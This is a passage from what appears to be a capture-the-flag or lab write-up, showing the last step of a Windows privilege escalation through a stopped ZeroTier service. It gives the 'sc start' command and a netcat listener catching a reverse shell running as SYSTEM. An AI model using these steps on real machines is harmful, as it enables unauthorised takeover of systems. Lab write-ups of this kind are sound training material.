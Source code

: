 SERVICE_NAME: zerotieroneservice
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```

The service is not running. All that needs to be done now is to start the service and we should receive a shell as ```NT AUTHORITY\SYSTEM``` (Don't forget to start a listener first).

```
C:\Users\bitbucket>sc start zerotieroneservice
```

```
┌──(kali㉿kali)-[~]
└─$ rlwrap nc -nvlp 31337
listening on [any] 31337 ...
connect to [10.13.48.55] from (UNKNOWN) [10.10.146.30] 49930
Microsoft Windows [Version 10.0.17763.1817]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```